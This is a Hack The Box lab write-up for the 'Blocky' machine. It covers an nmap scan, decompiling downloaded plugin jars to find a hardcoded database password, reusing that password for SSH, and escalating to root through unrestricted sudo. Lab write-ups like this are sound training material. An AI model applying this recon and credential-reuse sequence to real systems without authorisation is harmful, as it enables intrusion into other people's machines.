 # HTB - Blocky
## OS - Linux

I started with an nmap scan as usual. IP Address of Blocky: 10.10.10.37

```
$nmap -sC -sV -oN Blocky.nmap 10.10.10.37
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-09 12:06 PST
Nmap scan report for 10.10.10.37
Host is up (0.094s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.00 seconds
```

Ports 21, 22, and 80 are open. Internet search showed there are some interesting exploits in WordPress 4.8 that we might be able to use.

Ran dirbuster after that. There are a lot of results like "http://10.10.10.37/index.php/2017/07/02/welcome-to-blockycraft/".

It shows a post by user notch. http://10.10.10.37/wp-includes/ shows the php scripts loaded on the web site.
It shows http://10.10.10.37/wiki which says
```
Under Construction

Please check back later! We will start publishing wiki articles after we have finished the main server plugin!

The new core plugin will store your playtime and other information in our database, so you can see your own stats!
```
So I tried /plugin and /plugins.

http://10.10.10.37/plugins shows two jar files. I downloaded the jar files.

I am used to procyon java disassembler but for some reason, I could not build it on this machine. So I downloaded jd-gui as it was suggested as an alternative.

Using jd-gui, I browsed the two jar files - BlockyCore.jar and griefprevention.jar.

BlockyCore.jar once disassembled shows BlockyCore.class with the following contents:

```
package com.myfirstplugin;

public class BlockyCore {
  public String sqlHost = "localhost";
  
  public String sqlUser = "root";
  
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
  
  public void onServerStart() {}
  
  public void onServerStop() {}
  
  public void onPlayerJoin() {
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
  }
  
  public void sendMessage(String username, String message) {}
}
```

Tried to ssh into the box as root with the above password but it did not work.

The message "Welcome to the Blcokycraft" shows up with author notch on the webpage, so I tried to ssh as notch. This time it worked.

```
$ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt 
```

Now to get privilege escalation, I tried "sudo -l". It asked for a passwd and I tried the above passwd. It worked.

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo -i
root@Blocky:~# ls
root.txt
root@Blocky:~# cat root.txt 
```




